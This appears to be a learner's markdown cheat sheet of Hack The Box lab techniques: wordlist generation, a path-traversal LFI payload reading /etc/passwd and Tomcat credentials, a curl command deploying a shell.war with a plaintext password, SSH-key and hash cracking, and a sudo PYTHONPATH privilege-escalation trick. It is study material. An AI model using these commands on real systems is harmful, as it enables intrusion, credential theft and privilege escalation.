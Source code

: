 # Labs Learning

## Gobuster

Use `-k` flag to `disable certificate checks`

## Custom Wordlist Using cewl to create an wordlist by using words in an website

```
cewl -w output.txt http://10.10.10.191
```

## Zone Transfer

## LFI WEBB

```
http://megahosting.htb/news.php?file=../../../../etc/passwd
```

```
php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml
```

## Java Files

USE

jd-gui APP

## Using Curl to upload a file

```
curl -T shell.war -u 'tomcat':'$3cureP4s5w0rd123!' 'http://tabby.htb:8080/manager/text/deploy?path=/myapp'
```

## SSH key crack

## ssh to john

```
/usr/share/john/ssh2john.py id_rsa2 > hash.txt
```

```
john id_rsa --wordlist=/usr/share/wordlists/rockyou.txt

```

## hashcat

```
.\hashcat -m 500 -a 0 hash.txt rockyou.txt
```

## Accessing web app Files In Internal Network

```
curl 127.0.0.1:<port>/<file name>
```

## Python File Path Change

```
sudo PYTHONPATH=/home/waldo /opt/scripts/admin_tasks.sh 6
```

## gzip base64 transfer

We see its a gzip compressed file

```
base64 <filename.tar>
```

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

